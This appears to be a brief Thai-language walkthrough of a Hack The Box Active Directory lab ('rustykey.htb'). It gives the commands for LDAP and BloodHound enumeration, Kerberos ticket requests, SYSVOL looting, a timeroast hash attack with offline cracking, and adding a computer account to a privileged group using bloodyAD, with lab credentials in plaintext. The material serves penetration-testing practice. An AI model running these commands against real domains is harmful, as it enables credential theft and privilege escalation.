










ldapsearch -x -H ldap://10.10.11.75 -D 'rr.parker@rustykey.htb' -w '8#t5HE8L!W3A' -b 'DC=rustykey,DC=htb'

bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -d 'rustykey.htb' -dc 'dc.rustykey.htb' -c All -ns 10.10.11.75

ลองหา creadential leak ใน smb

nxc -k จะใช้ username/password ที่ให้มา (-u, -p) kerboroast authen ให้ TGT ขอ service ticket สำหรับ SMB

หรือจจะใช้ impacket-getTGT rustykey.htb/rr.parker:'8#t5HE8L!W3A' ขอ TGT ก็ได้

smbclient //dc.rustykey.htb/SYSVOL -U 'rr.parker%8#t5HE8L!W3A' -k  -c 'prompt OFF;recurse ON;lcd '/home/kali/Downloads/authHTB';mget *'

แต่ไม่พบอะไร

ใช้ timeroast  request a password hash of any computer or trust account(มักเป็นชื่อ domain + $) แต่เราจะโฟกัสที่ IT-COMPUTER3
1. Unauthenticated Attacker → ส่ง NTP request พร้อม RID
2. Windows NTP Service → ส่งคืน encrypted timestamp
3. Attacker → ได้ password hash
4. Offline cracking → ได้ plaintext password

https://github.com/SecuraBV/Timeroast

python3 timeroast.py dc.rustykey.htb

python3 timecrack.py hash.txt rockyou_utf8.txt 

bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k add groupMember HELPDESK 'IT-COMPUTER3$'

